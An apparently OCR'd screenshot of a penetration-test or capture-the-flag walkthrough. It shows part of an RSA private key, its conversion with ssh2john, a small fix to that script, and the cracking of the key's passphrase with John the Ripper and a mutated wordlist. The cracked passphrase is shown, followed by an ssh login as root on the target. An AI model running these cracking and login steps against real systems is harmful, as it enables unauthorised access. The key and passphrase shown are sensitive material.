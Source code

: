 yRW7dyHrVT3e4go7jwBiWm0XQDT43WIIli3xEFGYFdYCewHVOOI4gViOgD2Ms1iY
IM+vYMZ/GV5fz7wRlM+jQ7gY7sw/iPKYgkUCr+d+5u6Uhu26EkkvkSrtkh/71cS0
d3CaHmZ/oeGy7/AYNIvANmmdmDpwZkSGaF3pDl+mKxMBu7x2h9dqjwysuUz6pdCW
3KJbiuZE9sixeUzOOaeFoOXTJG/+2NWseKwxycU+k6/7fPuaENBwxfx/fUh5Y9Mi
MkASEKmWm60x00uACDYRYE0h3yDHMSzf9dJkfyL9kR+3zLicbG8dUPFxF96BYldu
o+Sz3goUv5/STFGjDaDhk05jHISMU9qGehxpzNaWx6Mu0bO/XIoXhRK2LFgDqjGS
-----END RSA PRIVATE KEY-----

locate *2john*

/usr/share/john/ssh2john.py

/usr/share/john/ssh2john.py id_rsa > ssh.hash

Traceback (most recent call last):
  File "/usr/share/john/ssh2john.py", line 193, in <module>
    read_private_key(filename)
  File "/usr/share/john/ssh2john.py", line 103, in read_private_key
    data = base64.decodestring(data)
AttributeError: module 'base64' has no attribute 'decodestring'


103         data = base64.decodebytes(data)


cat ssh.hash
john --wordlist=mut_password.list ssh.hash
john ssh.hash --show

id_rsa:P@ssw0rd12020!
1 password hash cracked, 0 left

chmod 600 id_rsa
ssh -i id_rsa root@$TARGET
